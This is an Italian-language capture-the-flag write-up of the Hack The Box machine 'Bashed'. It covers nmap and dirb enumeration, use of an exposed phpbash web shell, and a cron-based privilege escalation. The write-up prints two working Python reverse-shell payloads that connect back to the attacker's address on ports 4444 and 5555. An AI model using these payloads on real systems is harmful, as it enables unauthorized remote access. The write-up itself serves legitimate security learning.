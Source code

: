 # Bashed

## Reconnaissance

Per prima cosa eseguo una scansione iniziale con nmap per conoscere le porte aperte e i servizi che girano su di esse.

```text
sudo nmap -sC -sV -O -oA /usr/share/nmap/initial 10.10.10.68
```

* **-sC**: scipt nmap di default
* **-sV**: per rilevare la versione dei servizi
* **-O**: per rilevare il SO
* **-oA**: per stampare tutti i formati e salvarli nel file _nmap/initial_

Le porte aperte sono le seguenti:

* **Porta 80** Apache httpd 2.4.18

```text
Nmap scan report for 10.10.10.68
Host is up (0.074s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=9/19%OT=80%CT=1%CU=31805%PV=Y%DS=2%DC=I%G=Y%TM=65095D2
OS:9%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=10C%TI=Z%CI=I%II=I%TS=8)SEQ
OS:(SP=107%GCD=1%ISR=10C%TI=Z%CI=I%TS=8)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O
OS:3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=7120%W2=
OS:7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=M54DNNSN
OS:W7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%D
OS:F=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O
OS:=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W
OS:=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%R
OS:IPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
```

## Enumeration

In questa fase cerco di capire se qualcuno di questi servizi servizi è configurato in modo errato o se presenta vulnerabilità note.

### 1) Porta 80 Apache 2.4.18

Non trovo nulla di interessante da sfruttare.

### 3) Direcotory enumeration

Utilizzo il comando dirb, dal quale ottengo il seguente risultato:

```text
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Sep 19 04:37:19 2023
URL_BASE: http://10.10.10.68/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.68/ ----
==> DIRECTORY: http://10.10.10.68/css/                                                                              
==> DIRECTORY: http://10.10.10.68/dev/                                                                              
==> DIRECTORY: http://10.10.10.68/fonts/                                                                            
==> DIRECTORY: http://10.10.10.68/images/                                                                           
+ http://10.10.10.68/index.html (CODE:200|SIZE:7743)                                                                
==> DIRECTORY: http://10.10.10.68/js/
```

Provo ad ispezionare la seguete pagina http://10.10.10.68/dev/ e mi ritrovo qui:

<p align="center">
  <img src="/Immagini/Linux-Box/Bashed/bashed-1.png" />
</p>

Aprendo il file _phpbash.php_ accedo a una shell dalla quale riesco a ricavare il primo flag user.txt.

<p align="center">
  <img src="/Immagini/Linux-Box/Bashed/bashed-2.png" />
</p>

## Privilege Escalation

Per prima cosa controllo i permessi dell'utente:

<p align="center">
  <img src="/Immagini/Linux-Box/Bashed/bashed-3.png" />
</p>

Quindi posso utilizzare l'utente _scriptmanager_ senza il bisgono di conoscere una password.

Prima di proseguire avvio una reverse shell sulla mia macchina. Per farlo faccio partire un listener sulla porta 4444 e sfrutto python sulla macchina bashed attraverso l'utilizzo di questo comando:

```text
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.2",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Successivamente cambio l'utente a _scriptmanager_:

```text
sudo -i -u scriptmanager
```

Mi soffermo sulla direcotry _/scripts_ sulla quale l'utente _scriptmanager_ ha i privilegi in lettura/scrittura.

<p align="center">
  <img src="/Immagini/Linux-Box/Bashed/bashed-4.png" />
</p>

Noto che lo script python test.py scrive sul file test.txt, il quale ha privilegi root. Inoltre, il file test.txt è stato creato da poco e sembra che venga aggiornato ogni minuto. Per questo motivo può essere sfruttato per creare una reverse shell con privilegi root.

Sulla mia macchina creo uno script _test.py_ che mi permettera di generare una reverse shell (preso da [qui](https://www.oreilly.com/library/view/hands-on-red-team/9781788995238/cd15b05d-822f-494d-939a-ae5a671222ff.xhtml)):

```text
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.2",5555))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

Modifico i permessi:

```text
chmod 777 test.py
```

Successivamente, prima di procedere all'invio del file alla macchina bashed, avvio un listener sulla porta 5555.

**Sono dentro!**

<p align="center">
  <img src="/Immagini/Linux-Box/Bashed/bashed-5.png" />
</p>
